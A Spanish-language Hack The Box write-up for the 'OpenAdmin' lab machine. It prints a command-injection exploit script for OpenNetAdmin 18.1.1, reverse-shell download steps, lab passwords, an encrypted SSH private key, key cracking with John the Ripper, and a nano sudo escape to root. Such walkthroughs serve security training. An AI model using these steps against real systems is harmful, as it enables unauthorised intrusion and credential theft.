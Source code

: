 ```yaml
---
title: "HTB – OpenAdmin"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2021/OpenAdmin.png"
categories:
  - WriteUp
tags:
  - HTB
  - Maquina
---
```


OS 				 | LINUX
Desarrollado por | dmw0ng
Dificultad 		 | Fácil
Liberación 		 | 4 enero 2020
Puntos 			 | 20

## Enumeración

Al usar nmap utilizando nmap -p- –open -T5 -v -n 10.10.10.171 y luego con el comando nmap -sCV -p22,80 10.10.10.171 (si quieren guardar el nmap usar -oN <NOMBRE ARCHIVO>) , solo encontramos que está abierto el puerto 22 (SSH) y 80 (web).

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-20 15:01 BST
Nmap scan report for 10.10.10.171
Host is up (0.086s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
| 256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_ 256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint: OS:SCAN(V=7.80%E=4%D=4/20%OT=22%CT=1%CU=38520%PV=Y%DS=2%DC=T%G=Y%TM=5E9DAB7
OS:6%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1
OS:1NW7%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT ADDRESS
1 103.86 ms 10.10.14.1
2 104.25 ms 10.10.10.171

OS and Service detection performed. Please report any incorrect results at Nmap done: 1 IP address (1 host up) scanned in 41.01 seconds
```

Debido a esto se empieza a busca información con whatweb, en el código fuente de la página web, mientras se ejecuta la dirbuster para buscar paginas ocultas y poder acceder a ellas. Simultaneamente hacemos Fuzzing.

- Music
- Ona
- Artwork
- Marga
- Sierra

Al entrar a cada una de las webs vemos que ona es OpenNetAdmin de versión 18.1.1 buscando en las bases de datos de exploit encontramos un CVE de ejecución remota de código, por lo que se busca el exploit y se encuentra en https://www.exploit-db.com/exploits/47691

```
#!/bin/bash

URL="${1}" while true;do echo -n "$ "; read cmd url --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n done
```

## 1° Shell

Al archivo del exploite le damos permiso 744 y lo ejecutamos de la siguiente manera ./archivo.sh http://10.10.10.171/ona/login.php con esto nos abrirá una terminar con opciones reducidas y difícil de navegar dentro de la misma.

En caso de que querer una shell con opciones, simplemente subimos una shell-reverse para ejecutarla desde el navegador. Para ello ejecutamos python -m SimpleHTTPServer en nuestra terminal y desde la maquina victima bajamos el archivo de la shell revers con wget

Navegando con shell podemos ver que existe 2 usuarios jimmy y joanna, y los archivos de configuración de la web OpenNetAdmin, de acuerdo a la documentación de la web, todo archivo de configuración se encuentra en **local/config**, es acá donde se encuentra una password n1nj4W4rri0R! en database_settings.inc.php, normalmente reutilizan las contraseñas por lo que se intentará ingresar con los usuarios encontrados.

## 2° Shell

El password sirve para acceder vía ssh con el usuario jimmy, pero este usuario no posee la flag de user, por lo que se deberá ver cómo escalar los privilegios al segundo usuario joanna.

Investigando el **/var/www** encontramos que hay una página interna llamada internal es por ello que se revisa la configuración de los sitios en el apache **/etc/apache2**. Al investigar las configuraciones de apache se encontró que hay un sitio que se accede localmente al puerto 52846 /etc/apache2/sites-enabled/internal.conf

Revisando el código fuente de la página internal vemos el archivo main.php encontramos lo siguiente:

```
<?php
session_start();
if (!isset ($_SESSION['username'])) { header("Location: /index.php"); };
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

Esto nos dice que nos mostrará el id_rsa del usuario joanna, existe dos formas obtener esta web
### Vía CURL

Para obtener el id_rsa se ejecuta el comando curl http://127.0.0.1:52846/main.php esto mostrar el id_rsa completo.

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
```
### Vía SSH TUNELING

Al revisar la web internal, nos damos cuenta que en index.php compara el pass con un hash ‘**00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1**′ en sha512, la cual al desencriptarla obtenemos que la clave es Revealed

Con esto generamos el tunel con el siguiente código desde la maquina atacante **ssh -L1234:127.0.0.1:52846 jimmy@10.10.10.171** esto hace el puerto 1234 de la maquina atacante se vincula con el puerto 52846 permitiendo ver la web

Usamos el usuario jimmy y la clave Revealed obtenidas anteriormente nos devuelve el id_rsa

## 3° SHELL (usuario)

Con el id_rsa se debe desencriptar con John the ripper para ello primero obtenemos el hash del id_rsa con **python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash** luego con ese hash ejecutamos John **john id_rsa.hash –wordlist=/usr/share/wordlists/rockyou.txt** y lo que obtenemos es la contraseña de id_rsa **bloodninjas** e ingresando con **ssh –i id_rsa joanna@10.10.10.171** y obtenemos la primera flag.

## 4° SHELL (root)

Dentro del equipo con el usuario joanna revisamos si tiene algún permiso como root, con el comando sudo -l y vemos que si lo tiene con /bin/nano en el archivo /opt/priv, debido a esto usamos GTFObins para revisar si hay escalada de privilegio con nano. Usando ^R^Xreset; sh 1>&0 2>&0 desde nano podemos escapar de él y obtener un sh de root, obteniendo la ultima flag.

![Racso](https://www.hackthebox.com/badge/image/159593)